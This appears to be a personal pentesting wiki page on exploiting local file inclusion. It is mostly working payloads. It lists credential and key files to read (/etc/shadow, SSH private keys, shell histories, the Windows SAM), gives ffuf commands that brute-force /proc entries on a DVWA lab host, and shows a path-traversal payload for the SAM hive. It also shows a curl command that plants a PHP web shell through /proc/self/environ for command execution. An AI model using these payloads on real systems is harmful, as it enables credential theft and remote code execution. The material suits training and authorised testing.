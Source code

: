 # Manual

## Enumeration

### Cross Platform

Check for `disable_functions`.

```
phpinfo.php
```

### Linux

```
/etc/group
/etc/shadow
/home/<username>/.ssh/id_rsa
/root/.ssh/id_rsa
/etc/crontab
/home/<username>/.bash_history
/home/<username>/.zsh_history
/home/<username>/.zhistory
```

```
/etc/os-release
```

```
/etc/hosts
/etc/resolv.conf
/proc/net/tcp
/proc/net/udp
/proc/net/arp
/proc/net/dev

/etc/ssh/sshd_config
```

Command line parameters

```
/proc/self/cmdline
/proc/<pid>/cmdline

$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -mc 200
```

```
/proc/self/environ
/proc/<pid>/environ
```

Current working directory

```
/proc/self/cwd
/proc/<pid>/cwd
```

```
/proc/self/fd/<pid>

$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/fd") -mc 200
```

```
/proc/self/stat
/proc/self/status
```

```
/proc/mounts
```

Look for lockout policy before bruteforcing SSH port.

```
/etc/pam.d/system-auth
/etc/fail2ban/fail2ban.conf
```

### Windows

```
/WINDOWS/repair/sam
/WINDOWS/repair/system
```

## Exploit

### Harvest Credentials

```
../../../../../../../../../../../../windows/system32/config/sam
```

### Spawn Implant

TODO: Upload any file extension to load a php implant

```

```

`/proc/self/environ` contains user inputs that turn it in a useful volatile storage. Apache stores an environment variable for the `HTTP_USER_AGENT` header to be used by the self-contained modules.

```
$ curl "http://dvwa.local/index.php?page=/proc/self/environ&cmd=id" -H "User-Agent" --data "<?php system($_GET['cmd']); ?>"
```

---
## References

### Backlinks

- [[File Inclusion Payloads|File Inclusion Payloads]]

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Local File Inclusion (LFI)](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

- [File Inclusion (Local/Remote)](https://notes.defendergb.org/web-sec/vuln/lfi-rfi)
